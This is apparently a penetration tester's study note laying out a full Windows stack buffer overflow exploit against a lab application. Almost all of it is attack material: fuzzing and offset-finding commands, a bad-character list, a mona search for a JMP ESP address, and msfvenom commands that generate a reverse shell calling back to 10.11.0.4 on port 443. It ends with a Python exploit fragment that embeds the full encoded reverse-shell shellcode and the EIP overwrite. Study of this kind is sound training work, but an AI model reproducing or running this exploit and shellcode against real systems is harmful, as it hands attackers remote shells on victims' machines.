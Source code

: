 #exploit #system #bufferoverflow

#### Scripts

##### Web form Fuzzing

[Github](https://github.com/vidura-supun/Offensive-Scripts/blob/main/Buffer_Overflow_Post.py)
Kali - /home/kali/scripts/Buffer Overflow/web_fuzzing.py

##### Pin Point the Bytes

```bash
msf-pattern_create -l 800 
```
	this needs approx lenght of the crash string
#### Check the offset

```bash
msf-pattern_offset -l 800 -q 42306142 
```
	Answer is the start of EIP the 4+ is the end 
answrer is 780
#### Check the space that you can accomodate

```python
filler = "A" * 780
eip = "B" * 4
offset = "C" * 4
buffer = "D" * (1500 - len(filler) - len(eip) - len(offset))

inputBuffer = filler + eip + offset + buffer
```

Then figure out how much space you have using ESP. 
	EX:  D begining memory - ESP  
	 Go to the end D and right click, then select Offset relative to ESP you'll get the character count

🔴 If the memory is less than 256 use filler from 'A' go up after following ESP dump

#### Check for bad Characters

**In HTML x09, x0a, x0d**

```python
badchars = (r"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

```

#### Use Mona to find a static Address that Contains JMP ESP

```powershell
!mona modules
```

- find a dll or the exe with ASLR set to fault
- Then run the below with the dll name to find the JMP ESP
```powershell
!mona find -s -s "\xff\xe4" -m VulnApp1.exe
```
- Enter the found address to EIP in little endian order
	Ex: memory address is 0x10090c83 , EIP = "\x83\x0c\x09\x10"

### Generate Shellcode

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

If multi threaded

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```


#### Add NOP slide

- Since decorder stub gets overwritten by GetPC routing.
```python
try:
  print "\nSending evil buffer..."

  shellcode = ("\xbe\x55\xe5\xb6\x02\xda\xc9\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"
  "\x52\x31\x72\x12\x03\x72\x12\x83\x97\xe1\x54\xf7\xeb\x02\x1a"
  "\xf8\x13\xd3\x7b\x70\xf6\xe2\xbb\xe6\x73\x54\x0c\x6c\xd1\x59"
  "\xe7\x20\xc1\xea\x85\xec\xe6\x5b\x23\xcb\xc9\x5c\x18\x2f\x48"
  "\xdf\x63\x7c\xaa\xde\xab\x71\xab\x27\xd1\x78\xf9\xf0\x9d\x2f"
  "\xed\x75\xeb\xf3\x86\xc6\xfd\x73\x7b\x9e\xfc\x52\x2a\x94\xa6"
  "\x74\xcd\x79\xd3\x3c\xd5\x9e\xde\xf7\x6e\x54\x94\x09\xa6\xa4"
  "\x55\xa5\x87\x08\xa4\xb7\xc0\xaf\x57\xc2\x38\xcc\xea\xd5\xff"
  "\xae\x30\x53\x1b\x08\xb2\xc3\xc7\xa8\x17\x95\x8c\xa7\xdc\xd1"
  "\xca\xab\xe3\x36\x61\xd7\x68\xb9\xa5\x51\x2a\x9e\x61\x39\xe8"
  "\xbf\x30\xe7\x5f\xbf\x22\x48\x3f\x65\x29\x65\x54\x14\x70\xe2"
  "\x99\x15\x8a\xf2\xb5\x2e\xf9\xc0\x1a\x85\x95\x68\xd2\x03\x62"
  "\x8e\xc9\xf4\xfc\x71\xf2\x04\xd5\xb5\xa6\x54\x4d\x1f\xc7\x3e"
  "\x8d\xa0\x12\x90\xdd\x0e\xcd\x51\x8d\xee\xbd\x39\xc7\xe0\xe2"
  "\x5a\xe8\x2a\x8b\xf1\x13\xbd\xbe\x0e\x1b\x2f\xd7\x12\x1b\x4e"
  "\x9c\x9a\xfd\x3a\xf2\xca\x56\xd3\x6b\x57\x2c\x42\x73\x4d\x49"
  "\x44\xff\x62\xae\x0b\x08\x0e\xbc\xfc\xf8\x45\x9e\xab\x07\x70"
  "\xb6\x30\x95\x1f\x46\x3e\x86\xb7\x11\x17\x78\xce\xf7\x85\x23"
  "\x78\xe5\x57\xb5\x43\xad\x83\x06\x4d\x2c\x41\x32\x69\x3e\x9f"
  "\xbb\x35\x6a\x4f\xea\xe3\xc4\x29\x44\x42\xbe\xe3\x3b\x0c\x56"
  "\x75\x70\x8f\x20\x7a\x5d\x79\xcc\xcb\x08\x3c\xf3\xe4\xdc\xc8"
  "\x8c\x18\x7d\x36\x47\x99\x8d\x7d\xc5\x88\x05\xd8\x9c\x88\x4b"
  "\xdb\x4b\xce\x75\x58\x79\xaf\x81\x40\x08\xaa\xce\xc6\xe1\xc6"
  "\x5f\xa3\x05\x74\x5f\xe6")

  filler = "A" * 780
  eip = "\x83\x0c\x09\x10"
  offset = "C" * 4
  nops = "\x90" * 10

  inputBuffer = filler + eip + offset + nops + shellcode
```
